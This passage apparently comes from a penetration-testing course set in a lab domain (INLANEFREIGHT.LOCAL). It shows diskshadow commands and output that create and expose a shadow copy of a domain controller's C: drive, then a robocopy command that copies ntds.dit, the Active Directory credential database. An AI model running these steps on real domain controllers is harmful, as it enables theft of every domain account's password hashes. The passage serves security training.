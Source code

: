 #### Execute diskshadow

```cmd-session
C:\Tools> diskshadow /s C:\Users\Public\diskshadowscript.txt

Microsoft DiskShadow version 1.0
Copyright (C) 2013 Microsoft Corporation
On computer:  DC01,  5/9/2023 8:25:34 PM

-> set context persistent nowriters
-> set metadata c:\windows\temp\file.cab
-> set verbose on
-> begin backup
-> add volume c: alias mydrive
->
-> create

Alias mydrive for shadow ID {f74f7237-966c-4e49-b523-8b9d39099840} set as environment variable.
Alias VSS_SHADOW_SET for shadow set ID {079bfed4-0ea9-40a6-af50-15c143646653} set as environment variable.
Inserted file Manifest.xml into .cab file file.cab
Inserted file DisE314.tmp into .cab file file.cab

Querying all shadow copies with the shadow copy set ID {079bfed4-0ea9-40a6-af50-15c143646653}

        * Shadow copy ID = {f74f7237-966c-4e49-b523-8b9d39099840}               %mydrive%
                - Shadow copy set: {079bfed4-0ea9-40a6-af50-15c143646653}       %VSS_SHADOW_SET%
                - Original count of shadow copies = 1
                - Original volume name: \\?\Volume{51c80a81-ed79-4478-9473-399512715f54}\ [C:\]
                - Creation time: 5/9/2023 8:25:34 PM
                - Shadow copy device name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
                - Originating machine: DC01.INLANEFREIGHT.LOCAL
                - Service machine: DC01.INLANEFREIGHT.LOCAL
                - Not exposed
                - Provider ID: {b5946137-7b9f-4925-af80-51abd60b20d5}
                - Attributes:  No_Auto_Release Persistent No_Writers Differential

Number of shadow copies listed: 1
->
-> expose %mydrive% p:
-> %mydrive% = {f74f7237-966c-4e49-b523-8b9d39099840}
The shadow copy was successfully exposed as p:\.
-> end backup

```

Next, we can use [robocopy](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/robocopy) to copy from the shadow copy:

#### Using robocopy to Copy from Shadow Copy

```cmd-session
C:\Tools> robocopy /b P:\Windows\ntds\ C:\Users\Public\ ntds.dit

-------------------------------------------------------------------------------
   ROBOCOPY     ::     Robust File Copy for Windows
-------------------------------------------------------------------------------

  Started : Tuesday, May 9, 2023 8:29:01 PM
   Source : P:\Windows\ntds\
     Dest : C:\Users\Public\

    Files : ntds.dit

  Options : /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30
```
